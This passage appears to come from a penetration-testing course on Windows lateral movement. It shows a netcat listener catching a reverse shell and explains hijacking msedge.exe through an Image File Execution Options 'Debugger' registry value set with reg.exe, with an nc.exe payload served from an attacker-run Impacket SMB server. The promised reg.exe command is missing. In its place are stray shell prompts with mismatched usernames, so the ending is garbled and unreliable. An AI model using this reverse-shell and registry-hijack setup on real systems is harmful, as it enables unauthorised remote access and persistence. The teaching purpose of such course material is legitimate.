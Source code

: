 ```shell
nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096

PS C:\Windows\system32>

```

**Note:** The instructions for compiling [NimExec](https://github.com/frkngksl/NimExec) are on GitHub. We will not provide an executable, but we encourage the student to complete the compilation process.

### Reg.exe

Having remote access to the registry with write permissions effectively provides Remote Code Execution (RCE) capabilities. This process utilizes the `winreg` SMB pipe. Typically, the remote registry service is enabled by default only on server-class operating systems.

We can leverage the program launch handler to move laterally on the network, modifying a registry key to a program frequently used on the target host; we could achieve remote code execution almost immediately.

Before we proceed with `reg.exe` for lateral movement, we must set up an SMB server to host our payload. We will be using [nc.exe](https://github.com/int0x33/nc.exe/) as our payload to get a reverse shell:

```shell
sudo python3 smbserver.py share -smb2support /home/plaintext/nc.exe
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

In our attack host we execute our `Netcat` listener:

```shell
nc -lnvp 8080
Listening on 0.0.0.0 8080

```

Now, we can execute `reg.exe` to add a new registry key to Microsoft Edge ( `msedge.exe`). The idea is that once `msedge.exe` is executed, it will also execute our specified payload. We must specify the full path of the subkey or the entry to be added with the domain name `add \\<domain>\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe`. `/v Debugger` specifies the name of the add registry entry and will ensure that our payload gets executed, `/t reg_sz` specifies the datatype of a Null-terminated string, and finally, we can type our payload `/d <payload>`:


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>